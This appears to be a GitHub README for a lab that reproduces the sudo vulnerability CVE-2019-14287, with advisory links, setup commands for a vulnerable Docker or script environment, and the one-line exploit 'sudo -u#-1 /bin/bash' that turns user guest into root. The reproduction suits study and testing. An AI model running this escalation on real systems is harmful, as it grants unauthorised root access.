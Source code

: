 # CVE-2019-14287

## About
<https://nvd.nist.gov/vuln/detail/CVE-2019-14287>


## PoC
<https://www.sudo.ws/alerts/minus_1_uid.html>


## Environment used

* Ubuntu 18.04.4 LTS
* [Sudo 1.8.27](https://www.sudo.ws/dist/sudo-1.8.27.tar.gz)


## Reproduction

* Server
    - Docker version:
        ```shell script
        bash Docker\ version/start.sh
        bash Docker\ version/stop.sh  
        ```
      
    - Script version:
        ```shell script
        cd Script\ version && sudo bash installation.sh
        ```

* Terminal:
    - Docker version:
        ```shell script
        ssh <Server IP> -l guest -p 8022
        /usr/local/bin/sudo -u#-1 /bin/bash 
        ```
    - Script version:
        ```shell script
        ssh <Server IP> -l guest -p 22
        /usr/local/bin/sudo -u#-1 /bin/bash 
        ```  
    The result is the escalation of user *guest* to *root*.
